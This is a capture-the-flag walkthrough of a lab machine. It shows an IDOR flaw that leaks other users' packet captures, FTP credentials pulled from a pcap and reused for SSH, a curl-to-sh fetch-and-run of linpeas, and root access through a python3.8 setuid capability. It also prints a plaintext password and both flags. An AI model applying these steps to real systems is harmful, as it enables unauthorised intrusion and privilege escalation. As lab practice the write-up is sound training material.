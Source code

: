 ```yaml
---
sticker: emoji//1f9e2
---
```


# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21   | ftp     |
| 22   | ssh     |
| 80   | http    |

We have three open ports, let's begin with reconnaissance.

# RECONNAISSANCE
---
![[Pasted image 20250107160531.png]]

This is the standard page, we have `Dashboard`, `Security Snapshot` `Ip Config` `Network Status`, let's check each of those:

![[Pasted image 20250107160748.png]]

Security snapshot takes us to another URL, if we click download, we are able to get a `7.pcap` file, if we use wireshark to analyze that, it's empty, so, let's keep searching in order to find anything useful:

![[Pasted image 20250107161541.png]]

We have an Ip section, nothing rare, let's keep searching:

![[Pasted image 20250107161617.png]]

Also a netstat section, nothing seems off too, 

```ad-hint

That's when I realized that when we enter the security snapshot section, we get redirected to a `/data/number` URL, so, I thought that if an IDOR vulnerability is there on the website, we may be able to read another scans, I used burp and it was indeed true, that's when I got that scan `5` had the following:

![[Pasted image 20250107162125.png]]


Now we have packets to read! Let's download the file and analyze it with wireshark:

![[Pasted image 20250107162221.png]]

```


# EXPLOITATION
---


Nothing useful came from this. That's when I kept searching and found the `/data/0` file, let's analyze it:

![[Pasted image 20250107163040.png]]

We found something useful!

A ftp string, let's follow it:

![[Pasted image 20250107163123.png]]

Nice, we got some credentials, let's log into `nathan` user:

```ad-note
`nathan`: `Buck3tH4TF0RM3!`
```

![[Pasted image 20250107163428.png]]

We got access, we can see a `user.txt` flag, let's get it and read it:

![[Pasted image 20250107163514.png]]

User flag is `f763e899654614af8d5f2e6a886516a0`

I thought than since that password works for ftp, some users tend to have the same password in different services, so, let's try to log into ssh with those credentials:

![[Pasted image 20250107163700.png]]

I was right, let's proceed with privilege escalation.

# PRIVILEGE ESCALATION
---

We can not use sudo on this machine with nathan user:

![[Pasted image 20250107163815.png]]


Let's use linpeas in this machine and check what it got for us:

![[Pasted image 20250107164042.png]]

We can use curl in the machine, so, we can perform: `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`

![[Pasted image 20250107164142.png]]

Nice, when linpeas finishes, we can see the following:

![[Pasted image 20250107164513.png]]

This is the binary we'll use in order to perform PE, I asked chatgpt and it said we must do the following steps:

```ad-summary
1. `/usr/bin/python3.8`
2. `import os`
3. `os.setuid(0)` (As this is root ID)
4. `os.system("bash")`

#### PoC
----
![[Pasted image 20250107165038.png]]

We can also see this procedure in Gtfobins:

![[Pasted image 20250107165210.png]]

```

Just like that, CTF is done, let's read root flag and submit it:

![[Pasted image 20250107165111.png]]

Root: `bb58eed72cb4312008e7262c59c17d7b`

Gg!

